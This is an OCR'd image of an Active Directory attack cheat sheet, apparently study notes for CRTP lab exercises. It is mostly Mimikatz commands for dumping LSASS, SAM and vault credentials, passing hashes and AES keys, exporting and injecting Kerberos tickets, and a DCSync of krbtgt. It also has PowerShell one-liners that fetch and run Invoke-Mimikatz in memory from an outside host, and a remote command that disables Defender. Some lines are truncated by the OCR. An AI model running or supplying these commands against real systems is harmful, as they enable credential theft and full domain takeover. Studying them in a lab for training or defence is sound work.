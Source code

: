 schtasks /Run /S dcorp-dc /TN "test"
WinRs
Mimikatz
Pass The Hash
# To perform over pass the ticket we are going to use mimikatz and Install it on the host machine and type the following command:
privilege::debug
sekurlsa::ekeys
# With the help of ekeys you will able to fetch all keys NTLM (RC4), AES128, AES256 key
# So with the help of sekurlsa::pth command we try to use ase256 key or aes128 for Kerberos ticket, it is difficult to detect becau
sekurlsa::pth /user:Administrator /domain:ignite.local /aes256:9c83452b5dcdca4b0bae7e89407c700bed3153c31dca06a8d7be29d98e13764c
sekurlsa::pth /user:Administrator /domain:ignite.local /aes128:b5c9a38d8629e87f5da0a0ff2c67f84c
CRTP 6
Invoke-Mimikatz -Command '"sekurlsa::pth /user:svcadmin /domain:dollarcorp.moneycorp.local /ntlm:a98e18228819e8eec3dfa33cb68b0728 /
extract the tickets from lsass
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
Load the ticket
Invoke-Mimikatz -Command '"kerberos::ptt [0;60d692]-2-0-60a10000-Administrator@krbtgt-DOLLARCORP.MONEYCORP.LOCAL.kirbi"'
extract the passwords from lsass
powershell IEX (New-Object System.Net.Webclient).DownloadString('http://172.16.100.111/Invoke-Mimikatz.ps1') ; Invoke-Mimikatz -Dum
Invoke-Mimikatz -Command '"sekurlsa::logonpasswords"'
# Download invoke-mimi to the memory
iex (iwr http://172.16.100.X/Invoke-Mimi.ps1 -UseBasicParsing)
# create session variable of the target machine
$sess = New-PSSession -ComputerName dcorp-mgmt.dollarcorp.moneycorp.local
# disable the defender on target machine
Invoke-command -ScriptBlock{Set-MpPreference -DisableIOAVProtection $true} -Session $sess
# run the invoke-mimi function on the target machine
Invoke-command -ScriptBlock ${function:Invoke-Mimi} -Session $sess
extract the credentials from the SAM file
Invoke-Mimi -Command '"token::elevate" "lsadump::sam"'
request TGS
Invoke-Mimikatz -Command '"kerberos::ask /target:MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local:1433"'
list of Kerberos tickets
Invoke-Mimikatz -Command '"kerberos::list"'
DCsync Attack
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
CRTP 7
Get passwords of scheduled tasks
mimikatz.exe "privilege::debug" "token::elevate" "vault::cred /patch" "exit"
Cracking local windows passwords with Mimikatz
# Extracting a copy of the SYSTEM and SAM registry hives